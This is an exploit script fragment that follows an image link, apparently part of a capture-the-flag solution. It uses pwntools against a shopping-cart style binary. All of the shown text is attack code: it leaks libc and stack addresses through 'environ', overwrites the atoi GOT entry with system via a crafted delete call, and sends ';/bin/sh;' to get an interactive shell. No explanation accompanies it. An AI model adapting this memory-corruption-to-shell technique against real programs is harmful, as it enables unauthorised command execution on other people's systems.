 ```python
info("Leaked libc.read address: " + hex(LIBC_READ_ADDR))
info("Found libc base address:  " + hex(libc.address))
info("__malloc_hook address:    " + hex(libc.symbols['__malloc_hook']))
info("environ** address:        " + hex(libc.symbols['environ']))

cart(b'yy' + create_cart_struct(libc.symbols['environ'], 0))

r.recvuntil(b'27: ')

ENVIRON_STACK = u32(r.recv(4))
DELETE_EBP = ENVIRON_STACK - 260

info("environ stack address:    " + hex(ENVIRON_STACK))
info("delete ebp address:       " + hex(DELETE_EBP))
info("atoi got address:         " + hex(elf.got['atoi']))


delete(b'27' + create_cart_struct(0x8048f88, 0, DELETE_EBP - 0xc, elf.got['atoi'] + 0x22))

r.sendafter(b'>', p32(libc.symbols['system']) + b';/bin/sh;')

r.interactive()
```


[show-line-numbers]: false